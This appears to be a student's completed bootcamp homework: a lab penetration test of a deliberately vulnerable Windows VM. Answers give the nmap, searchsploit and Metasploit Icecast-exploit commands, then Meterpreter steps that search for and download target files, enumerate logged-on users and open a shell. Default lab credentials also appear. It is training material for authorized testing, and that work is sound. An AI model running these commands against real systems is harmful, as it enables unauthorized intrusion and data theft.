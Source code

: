 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- A full report of this engagement can be found at the bottom. 


#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > `Answer: \nmap -sV 192.168.0.20`

      <img src="Images/Capture1.PNG"/>

      <img src="Images/Capture2.PNG"/>
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > `Answer: searchsploit icecast` 

        <img src="Images/Capture3.PNG"/>

        <img src="Images/Capture11.PNG"/>


3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > `Answer: msfconsole`

     <img src="Images/Capture4.PNG"/>
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > `Answer: search icecast`

     <img src="Images/Capture5.PNG"/>
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > `Answer: use 0`

     <img src="Images/Capture6.PNG"/>
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > `Answer: set RHOST 192.168.0.20`

     <img src="Images/Capture7.PNG"/>
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > `Answer: run`

     <img src="Images/Capture8.PNG"/>
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > `Answer: search -f *secret*.txt`

     <img src="Images/Capture9.PNG"/>
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > `Answer: search -f *recipe*.txt`
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      >`Answer: download c:\Users\IEuser\Documents\Drinks.recipe.txt'

      
    <img src="Images/Capture12.PNG"/>
  

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  >`Answer: run post/windows/gather/enum_logged_on_users`
                                           
     
B. Open a Meterpreter shell. 
 
  > `Answer: shell`

  <img src="Images/Capture13.PNG"/>
 
C. Run the command that displays the target's computer system information:

   > `Answer: exit to meterpreter and run: sysinfo` 

   <img src="Images/Capture10.PNG"/>

<br>
<br>

## A full report can be found here: [GoodSecurity Penetration Test Report](./GoodSecurity_Penetration_Test_Report.PDF)

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
